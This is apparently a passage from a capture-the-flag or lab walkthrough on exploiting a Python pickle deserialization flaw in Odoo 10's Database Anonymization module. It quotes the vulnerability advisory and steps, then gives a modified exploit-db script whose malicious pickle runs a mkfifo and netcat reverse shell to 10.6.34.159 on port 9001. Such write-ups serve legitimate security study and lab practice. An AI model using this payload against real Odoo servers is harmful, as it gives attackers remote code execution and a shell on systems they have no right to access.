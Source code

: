 

Let's search for an exploit:

![Pasted image 20250328171812.png](../../IMAGES/Pasted%20image%2020250328171812.png)

We got a code execution vulnerability regarding Odoo 10


```
## Vulnerability Details
One of the core Odoo modules, Database Anonymization, allows an administrator to anonymize the contents of the Odoo database. The module does this by serializing the contents of the existing database using Pythonâ€™s pickle module into a backup file before modifying the contents of the database. The administrator can then de-anonymize the database by loading the pickled backup file.

Pythonâ€™s pickle module can be made to execute arbitrary Python code when loading an attacker controlled pickle file. With this, an administrator can execute arbitrary Python code with the same privilege level as the Odoo webapp by anonymizing the database then attempt the de-anonymization process with a crafted pickle file.

## Proof of Concept
In order to exploit the vulnerability, you should navigate to the Apps page (the link is in the navigation bar at the top and search for and install â€œDatabase Anonymizationâ€ in the search bar. We have to deselect the â€œAppsâ€ filter in the search bar for it to show up.

Once we have the module installed, we navigate to the settings page and select â€œAnonymize databaseâ€ under â€œDatabase anonymizationâ€ and click on the â€œAnonymize Databaseâ€ button. Next, we refresh the page and navigate to the same page under settings. We upload the â€œexploit.pickleâ€ file generated our script and click on â€œReverse the Database Anonymizationâ€ button. We should have a reverse shell.
```


Let's use the exploit provided by `exploit-db`:

Link: https://www.exploit-db.com/exploits/44064

We need to modify the script a little bit:


```python
import cPickle
import os
import base64
import pickletools

class Exploit(object):
	def __reduce__(self):
		return (os.system, (("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.34.159 9001 >/tmp/f"),))

with open("exploit.pickle", "wb") as f:
	cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)

```
